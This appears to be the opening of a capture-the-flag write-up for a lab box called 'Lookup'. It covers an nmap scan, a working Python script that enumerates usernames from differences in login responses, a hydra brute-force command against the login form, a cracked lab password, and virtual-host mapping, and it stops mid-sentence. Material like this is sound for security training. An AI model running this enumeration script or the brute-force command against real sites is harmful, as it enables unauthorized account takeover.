 ### Intro
_Lookup_ features real-world vulnerabilities like web app flaws and privilege escalation. It teaches key skills such as reconnaissance, enumeration, command injection, and scripting for automation—offering valuable experience in penetration testing and secure coding practices.
#### Nmap
```bash
nmap -p- -A 10.10.248.120
Starting Nmap 7.80 ( https://nmap.org ) at 2025-07-14 22:49 BST
Nmap scan report for ip-10-10-248-120.eu-west-1.compute.internal (10.10.248.120)
Host is up (0.00021s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://lookup.thm
MAC Address: 02:55:1A:4A:B6:E7 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=7/14%OT=22%CT=1%CU=41006%PV=Y%DS=1%DC=D%G=Y%M=02551A%T
OS:M=68757B71%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10A%TI=Z%CI=Z%II=I
OS:%TS=A)OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11N
OS:W7%O5=M2301ST11NW7%O6=M2301ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F
OS:4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T
OS:=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=
OS:40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0
OS:%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R
OS:=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.21 ms ip-10-10-248-120.eu-west-1.compute.internal (10.10.248.120)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.87 seconds
```

Browsing the IP gives us `We can’t connect to the server at lookup.thm.`, meaning the computer tried to reach the address `http://lookup.thm` but couldn't find or connect to the server.

To overcome this issue we need to map the `ip` to `hostname` in `/etc/hosts (a local file where you manually map hostnames to IP addresses)` file because the internal lab domains aren't publicly registered. 

#### Browse the hostname
```bash
lookup.thm
```
- We get a basic login page.

#### Python Script to Enumerate Users
```python
import requests
from concurrent.futures import ThreadPoolExecutor
import threading
from urllib.parse import urljoin

print_lock = threading.Lock()

def is_valid_user(response):
    invalid_msg = "Wrong username or password. Please try again.<br>Redirecting in 3 seconds."
    return not (response.text.strip() == invalid_msg and len(response.text.strip()) == 74)

def check_username(session, post_url, username_field, password_field, fake_password, username):
    data = {username_field: username, password_field: fake_password}
    try:
        response = session.post(post_url, data=data, timeout=10)
        if is_valid_user(response):
            with print_lock:
                print(f"[+] Valid username: {username}")
    except requests.RequestException:
        pass  # silently ignore errors

def main():
    print("=== User Enumeration (Only Valid Users Output) ===\n")
    base_url = input("Base URL (e.g. http://lookup.thm/): ").strip()
    post_path = input("Login form action path (e.g. login.php): ").strip()
    post_url = urljoin(base_url, post_path)
    username_field = input("Username field name (e.g. username): ").strip()  # The username and password fields can be extracted from 
    password_field = input("Password field name (e.g. password): ").strip()  # the source page under username and password snippets.
    fake_password = input("Fake password to use (e.g. Invalid123!): ").strip()
    wordlist_path = input("Path to username wordlist: ").strip()
    threads = input("Number of threads to use (default 10): ").strip()
    threads = int(threads) if threads else 10

    session = requests.Session()
    try:
        with open(wordlist_path, "r") as f:
            usernames = [line.strip() for line in f if line.strip()]
    except FileNotFoundError:
        print("[!] Wordlist file not found.")
        return

    print(f"\n[*] Starting scan with {threads} threads...\n")

    with ThreadPoolExecutor(max_workers=threads) as executor:
        for username in usernames:
            executor.submit(check_username, session, post_url, username_field, password_field, fake_password, username)

if __name__ == "__main__":
    main()
```

We have managed to extract two usernames `admin` and `jose`. Now, it's time to brute-force the password for these users.

#### Brute Force with Hydra
```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form '/login.php:username=jose&password=^PASS^:F=Wrong' -t 32
```

We've managed to crack the password of the user `jose` and the password is `password123`. We now use these credentials to login in but like earlier we get nothing. When we inspect the `Network` tab and login with the creds again, we get a new subdomain `files.lookup.thm`. 

This technique is called `Virtual Hosting`, where multiple domain names are hosted on the same IP. The web server uses the `Host header in the HTTP request` to determine which site to server.

We can map this subdomain to the IP like we did earlier.

#### Map the Subdomain
```bash
sudo vim /etc/hosts
IP     files.lookup.thm
```

Once that is done, refresh the page and we are inside the website. There are a lot of files and we can check all of them. However, 
